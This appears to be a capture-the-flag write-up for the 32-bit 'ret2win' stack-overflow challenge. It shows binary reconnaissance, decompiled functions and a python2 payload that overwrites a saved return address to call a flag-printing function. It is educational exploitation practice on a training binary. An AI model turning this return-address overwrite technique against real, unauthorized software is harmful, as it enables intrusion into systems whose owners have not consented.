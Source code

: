 ## Description:
> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.
## Write-up:
`ret2win32` binary is a standard Intel 32-bit ELF.
```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

```
`readelf` shows a couple of suspiciously named functions, being `pwnme` and `ret2win`:
```bash
$ readelf ret2win32 -Ws | grep FUNC
...
    36: 080485ad   127 FUNC    LOCAL  DEFAULT   14 pwnme
    37: 0804862c    41 FUNC    LOCAL  DEFAULT   14 ret2win
...
```
`checksec` shows `NX` bit is set for the binary and `PIE` is off:
```bash
$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```
Opening this binary up in Ghidra shows `main` calls `pwnme`, which looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}
```
And `ret2win` looks like:
```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
So to win, I need to cause a buffer overflow in `pwnme` to change the return address to `ret2win`.
![[Pasted image 20231215170018.png]]
![[Pasted image 20231215170103.png]]
Using `gdb-peda`'s pattern functionality, I have found that the offset from the buffer to the functions return address is 44 bytes.
Now, I need the address of ret2win:
```bash
gdb-peda$ p ret2win
$1 = {<text variable, no debug info>} 0x804862c <ret2win>
```
So `0x0804862c` is the address of `ret2win`. I'll now use the gathered information to build a payload.
```bash
python2 -c 'print "\x00"*44 + "\x2c\x86\x04\x08"' > payload.txt
```
Now to throw the exploit:
![[Pasted image 20231215171642.png]]
As shown in the above picture, the exploit was successful, and the program executed the `ret2win` function which prints the "flag".